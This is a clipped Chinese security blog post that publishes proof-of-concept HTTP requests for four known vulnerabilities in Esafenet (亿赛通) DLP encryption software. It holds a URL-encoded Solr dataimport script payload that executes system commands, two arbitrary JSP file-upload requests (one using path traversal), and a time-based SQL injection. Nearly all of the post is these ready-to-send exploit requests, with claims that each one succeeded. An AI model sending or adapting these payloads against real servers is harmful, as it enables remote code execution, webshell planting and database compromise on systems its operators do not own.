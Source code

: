 ```yaml
---
title: 亿赛通 4 个 Nday 漏洞 POC
url: https://mp.weixin.qq.com/s?__biz=MzAxNzkyOTgxMw==&mid=2247492421&idx=1&sn=37e06beb967da199e511af0e328976d4&chksm=9bdca07facab2969874415f58775e4becc7da987c26d473d2d56b1beb42be5b08aed524ac183&mpshare=1&scene=1&srcid=03117neMubmw6DEMOfMsiCIn&sharer_shareinfo=9b2dbafa999359edddea0c958d93d902&sharer_shareinfo_first=9b2dbafa999359edddea0c958d93d902#rd
clipped_at: 2024-03-31 16:09:09
category: temp
tags: 
 - mp.weixin.qq.com
---
```



# 亿赛通 4 个 Nday 漏洞 POC

**写在前面**

    前几天公众号看到亿赛通 DLP 近期有个大量接口的远程命令执行的漏洞，想起来自家也购买了这个加密软件，就顺手把历史所有的漏洞都测了一遍。最后发现有一个远程命令执行漏洞，两个任意文件上传漏洞，一个 SQL 注入漏洞。

    推送内容就直接放利用成功漏洞的 POC 和截图了。

  

**目录**  

```plain
0x01 亿赛通 dataimport 接口任意命令执行
0x02 亿赛通 UploadFileFromClientServiceForClient 接口任意文件上传
0x03 亿赛通 DecryptApplicationService2 接口任意文件上传
0x04 亿赛通 update-sql 注入
```

- - -

- - -

  

**亿赛通 dataimport 接口任意命令执行**

```plain
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22ipconfig%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1
Host: IP: PORT
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Length: 88

<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>
```

![图片](assets/1711872549-a4543a8fbc54f6d6a7a9f1d304a17ac5.webp)

  

## 

## **亿赛通 UploadFileFromClientServiceForClient 接口任意文件上传**

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBLAOLBAKBNDHLIGBKEOJLICAIDMGEDJKGP HTTP/1.1
Host: IP: PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type:multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK

pentest
```

![图片](assets/1711872549-136a42288f8f1ee591f4db81096167be.png)

文件地址：/N0th1ng.jsp

![图片](assets/1711872549-ec31f921fd62258ea91af73f9cecb0ae.webp)

##   

## **亿赛通 DecryptApplicationService2 接口任意文件上传**

```plain
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/pentest.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host:  IP: PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=B9964151074C71F115A9C803FFF05C34
Upgrade-Insecure-Requests: 1
Content-Length: 11

pentest
```

![图片](assets/1711872549-5a9f81a1a0dfdf285a18feb6b07af63b.webp)

文件地址：/CDGServer3/pentest.jsp

![图片](assets/1711872549-a66eadb4bd83ca153389503cc6070e2b.webp)

##   

## **亿赛通 update 接口 sql 注入**

```plain
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:1%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0E05880315C89F32A53653313D83EC57; JSESSIONID=ACDE6D30E6BCEC22E1F90536FEEBD951
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

delay 了 4 秒，可能语句不止执行一次

![图片](assets/1711872549-92f2af41259a63f443e84939d44f7676.webp)  

![图片](assets/1711872549-f799cde03db8bdf25261741925a74383.webp)

- - -